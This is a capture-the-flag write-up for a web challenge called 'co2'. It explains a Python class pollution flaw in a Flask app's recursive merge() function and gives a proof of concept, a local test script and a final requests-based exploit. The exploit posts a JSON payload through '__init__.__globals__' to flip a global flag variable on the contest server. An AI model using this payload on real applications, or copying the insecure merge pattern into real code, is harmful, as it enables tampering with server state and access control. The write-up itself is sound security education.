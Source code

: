 # co2

## Description
```
A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application.

Author: n00b.master.
```

## Provided Files
```
- co2.zip
```

## Writeup

> [!NOTE]
> Credits to [Jones](https://github.com/jonasheschl) who worked together with me on this challenge.

Starting off, we inspected our entrypoint. <br/>
```py
flag = os.getenv("flag")

@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

To retrieve the flag we would have to change the variable `flag` to `"true"`. <br/>
It was clear to us that we would need to access the `global-context` to change the value of this variable because changing the `env-var` somehow would prove useless if we couldn't crash the server to restart the service and load the `env-vars` once again. <br/>
Knowing this we inspected the `self-made` utility functions. <br/>
```py
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def save_feedback_to_disk(feedback_obj):
    feedback = ""
    for attr in dir(feedback_obj):
        if not attr.startswith('__') and not callable(getattr(feedback_obj, attr)):
            feedback += f"{attr}: {getattr(feedback_obj, attr)}\n"
    feedback_dir = 'feedback'
    if not os.path.exists(feedback_dir):
        os.makedirs(feedback_dir)
        print(f"Directory {feedback_dir} created.")
    else:
        print(f"Directory {feedback_dir} already exists.")
    files = glob.glob(os.path.join(feedback_dir, '*'))
    if len(files) >= 5:
        oldest_file = min(files, key=os.path.getctime)
        os.remove(oldest_file)
        print(f"Deleted oldest file: {oldest_file}")
    new_file_name = os.path.join(feedback_dir, f"feedback_{int(time.time())}.txt")
    with open(new_file_name, 'w') as file:
        file.write(feedback)
    print(f"Saved feedback to {new_file_name}")
    return True 
```

The issue we saw was hidden inside the `merge()` function. <br/>
The merge function tries to merge a `json-object` with a `python-class` to dynamically add properties. <br/>
The issue is that you can overwrite the `builtin` class funtions. <br/>
```py
# Builtin-functions of the feedback-class
['title', 'content', 'rating', 'referred', '__module__', '__init__', '__dict__', '__weakref__', '__doc__', '__new__', '__repr__', '__hash__', '__str__', '__getattribute__', '__setattr__', '__delattr__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce_ex__', '__reduce__', '__getstate__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

Using this we thought about accessing the `global-context` of the app through the `class-tree`. <br/>
After finding `globals()['flag']` which displayed the variable value we tried to replicate this within a class object. <br/>
PoC: <br/>
```py
flag = "false"

class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""

feedback.__init__.__globals__["flag"] = "true"
```

Local-Testing Script: <br/>
```py
import json

flag = "false"

class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            print(1)
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

feedback = Feedback()

data = json.loads('''{
    "title": "123",
    "content": "123", 
    "rating": "5",
    "referred": "No",
    "__init__": {"__globals__['flag']": "true"}
}''')

merge(data, feedback)

print(flag)
```

Testing it out we found that we needed to use a nested version of our exploit. <br/>
Final exploit: <br/>
```py
import requests

base_URL = 'https://web-co2-2041887b420a1da8.2024.ductf.dev/'

cookies = {
    'session': '.eJwlzjEOwyAMBdC7MHfAGIPJZSKwv5WuSTNVvXsr9Z3gvdMeJ64jba_zxiPtT09bElAzU-0ZMXKfSiYShJar5h4KFVef7KSSNTp71Ghoi9ZyhsmgNsqYXGNmdh8FGiGazUp11xHd1uxqBjY1MZrFYTDuwwFOv8h94fxvKH2-CDUxGg.ZorDTg.WAigA_JNW377oQmTHdHgjRM1pSw'
}

payload = {
    "title":"123",
    "content":"123",
    "rating":"1",
    "referred":"123", 
    "__init__": {
        "__globals__": {
            "flag": "true"
        }
    }
}

res = requests.post(f'{base_URL}save_feedback', json=payload, cookies=cookies)


if res.status_code == 200:

    res = requests.get(f'{base_URL}get_flag', cookies=cookies)

    print(res.text)
```

Running the exploit reveals the flag which concludes this writeup. <br/>
```sh
$ python3 test.py
DUCTF{_cl455_p0lluti0n_ftw_}
```